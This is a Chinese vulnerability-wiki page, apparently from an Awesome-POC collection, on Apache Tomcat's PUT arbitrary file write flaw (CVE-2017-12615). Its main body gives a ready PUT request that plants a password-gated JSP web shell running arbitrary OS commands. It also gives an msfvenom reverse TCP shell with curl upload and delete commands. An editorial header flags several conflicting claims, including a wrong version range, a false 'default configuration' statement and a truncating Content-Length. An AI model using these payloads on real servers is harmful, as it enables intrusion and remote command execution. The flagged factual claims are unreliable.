

# Apache Tomcat PUT 方法任意写文件漏洞 CVE-2017-12615

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：readonly=false为非默认、可写Web资源且JSP执行；标题12615限Windows，演示8.5.19/Linux尾斜线为另一范围
- 证据范围：标题/版本/平台/实验互相冲突，应拆清初始Windows漏洞与后续PUT绕过。

### 已有来源支持的更正

- 官方12615限Windows7.0.0–7.0.79；12617涵盖7.0.0–7.0.81及PUT启用条件，7.0.82修复

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 默认配置表述错误，正文自己明确需要readonly=false
- 7.0.0–7.0.81是12617范围，不是12615；官方12615为Windows7.0.0–7.0.79
- 演示Tomcat8.5.19与标题7.x12615不符
- 请求Content-Length:5但body数百字节，原样只上传前5字节
- 上传恶意文件后还需请求JSP才执行；删除带尾斜线是否真正清理需验证
- 缺各编号具体修复/恢复只读配置，不能简单合并

### 核验来源

- https://tomcat.apache.org/security-7

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

2017 年 9 月 19 日，Apache Tomcat 官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞 (CVE-2017-12615)。当 启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP 文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质 Tomcat 配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然 Tomcat 对文件后缀有一定检测（不能直接写 jsp），但我们使用一些文件系统的特性（如 Linux 下可用 `/`）来绕过了限制。

## 漏洞影响

```
Apache Tomcat 7.0.0-7.0.81（默认配置）
```

## 环境搭建

Vulhub 启动 Tomcat 8.5.19 环境：

```shell
docker-compose build
docker-compose up -d
```

运行完成后访问 `http://your-ip:8080` 即可看到 Tomcat 的 Example 页面。

## 漏洞复现

直接发送以下数据包即可在 Web 根目录写入 shell：

```http
PUT /2.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<% if("poc".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b,0,a));
        }
        out.print("</pre>");
    }
%>
```

如下：



也可以用 PUT 方式上传。注意，最后一个 `/` 字符不可省略：

```shell
# msf生成jsp木马
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp

# 通过PUT上传
curl -v -X PUT --data-binary @shell.jsp "http://your-ip:8080/shell.jsp/"

# 通过DELETE删除
curl -v -X DELETE "http://your-ip:8080/shell.jsp/"
```


---

> 来源：Threekiii/Awesome-POC
